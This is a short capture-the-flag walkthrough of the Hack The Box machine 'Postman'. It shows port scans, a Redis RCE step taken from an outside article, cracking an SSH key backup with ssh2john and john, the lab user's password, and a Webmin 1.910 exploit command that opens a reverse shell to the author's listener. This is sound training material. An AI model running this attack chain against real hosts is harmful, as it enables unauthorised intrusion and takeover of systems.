










# [Postman](https://app.hackthebox.com/machines/postman)


```bash
rustscan 10.10.10.160 --ulimit 5000 -b 2000 -t 2000
```



Let's do nmap for open ports.

```bash
nmap -sC -sV -A -p22,80,6379,10000 10.10.10.160 -Pn
```




I searched exploit for Redis '4.0.9' on Google and find [this](https://m0053sec.wordpress.com/2020/02/13/redis-remote-code-execution-rce/)


I do all steps on this article and got shell.



While enumerating machine, I see that I don't have privilege to look at user.txt file, need to pivot into 'Matt' user.




I found 'id_rsa.bak' file on '/opt' directory.




Let's try to crack this RSA key using `ssh2john` and `john` tools.

```bash
ssh2john ssh_key > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
```




We know that password is 'computer2008', after knowing the password of 'Matt' user, we can switch via `su` command.

Matt: computer2008




user.txt




For privilege escalation vector, I can't find anything, that's why I searched Webmin service version (1.910) to find any exploit.




Let's try to use this. (I remove some unnecessary codes from exploit) by writing below.

```bash
python2 webmin_exploit.py --rhost 10.10.10.160 --rport 10000 -u Matt -p computer2008 --lhost 10.10.16.3 --lport 1337 -s true
```

I got reverse shell via listener (port -1337).

root.txt

